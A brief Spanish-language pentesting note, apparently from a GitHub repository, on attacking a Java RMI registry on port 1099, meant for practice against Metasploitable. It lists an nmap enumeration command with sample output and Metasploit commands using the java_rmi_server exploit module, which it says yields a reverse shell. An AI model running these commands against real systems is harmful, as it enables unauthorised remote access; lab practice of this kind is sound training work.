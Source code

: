 # EXPLOITING JAVA RMI REGISTRY

(se puede probar en metasploitable)

**puerto por defecto 1099**

**enumeracion**

```bash
nmap -sT 10.10.10.10 -p1099 -sV 

#output
1099/tcp open rmiregistry syn-ack
1099/tcp open java-rmi Java RMI
```

**explotacion METASPLOIT**

```bash
use exploit/multi/misc/java_rmi_server
set rhost 10.10.1.10
set rport 1099
run
```

y nos dara una reverse shell